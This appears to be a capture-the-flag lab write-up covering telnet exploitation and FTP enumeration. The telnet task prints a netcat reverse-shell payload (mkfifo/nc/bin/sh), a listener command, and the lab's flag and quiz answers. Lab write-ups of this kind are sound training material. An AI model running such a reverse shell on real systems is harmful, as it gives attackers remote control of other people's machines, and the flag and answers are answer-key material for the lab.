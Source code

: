 ### Task 7 - Exploiting Telnet
1. Great! It's an open telnet connection! What welcome message do we receive?<br>
    ```
    $ telnet 10.10.197.209 8012
    Trying 10.10.197.209...
    Connected to 10.10.197.209.
    Escape character is '^]'.
    SKIDY'S BACKDOOR. Type .HELP to view commands
    ```

1. Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)<br>
    **Answer:** N

1. Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)<br>
    **Answer:** Y

1. What word does the generated payload start with?<br>
    `mkfifo /tmp/offs; nc 10.10.107.28 4444 0</tmp/offs | /bin/sh >/tmp/offs 2>&1; rm /tmp/offs`
    **Answer:** mkfifo

1. What would the command look like for the listening port we selected in our payload?<br>
    **Answer:** nc -lvnp 4444

1. Success! What is the contents of flag.txt?<br>
    ![](images/5.png)<br>
    **Answer:** THM{y0u_g0t_th3_t3ln3t_fl4g}

### Task 8 - Understanding FTP
1. What communications model does FTP use?<br>
    > FTP operates using a client-server protocol

    **Answer:** client-server

1. What's the standard FTP port?<br>
    **Answer:** 21

1. How many modes of FTP connection are there?<br>
    **Answer:** 2

### Task 9 - Enumerating FTP
1. How many ports are open on the target machine?<br>
    ```
    Nmap scan report for 10.10.237.138
    Host is up (0.36s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE
    21/tcp open  ftp
    80/tcp open  http
    ```
    **Answer:** 2
